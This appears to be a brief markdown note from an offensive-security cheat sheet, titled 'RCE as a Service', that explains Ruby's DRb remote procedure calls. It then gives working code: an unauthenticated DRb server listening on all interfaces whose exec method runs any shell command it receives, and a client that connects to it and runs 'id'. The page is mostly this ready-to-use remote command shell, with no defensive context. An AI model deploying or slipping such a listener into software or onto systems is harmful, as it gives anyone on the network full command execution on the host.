 # RCE as a Service
Distributed Ruby (DRb) allows inter-process communication between Ruby programs by implementing remote procedure calling. Distributed Ruby enables remote method calling for Ruby. It is part of the standard library and therefore you can expect it to be installed on most systems using MRI Ruby. Because the underlying object serialization depends on Marshal, which is implemented in C, good speeds are expectable. *– https://en.wikibooks.org*

## RCE Service 
```ruby
#!/usr/bin/env ruby
require 'drb'

class RShell
   def exec(cmd)
     `#{cmd}`
   end
end

DRb.start_service("druby://0.0.0.0:8080", RShell.new)
DRb.thread.join
```


## Client 

```ruby
rshell = DRbObject.new_with_uri("druby://192.168.0.13:8080")
puts rshell.exec "id"
```
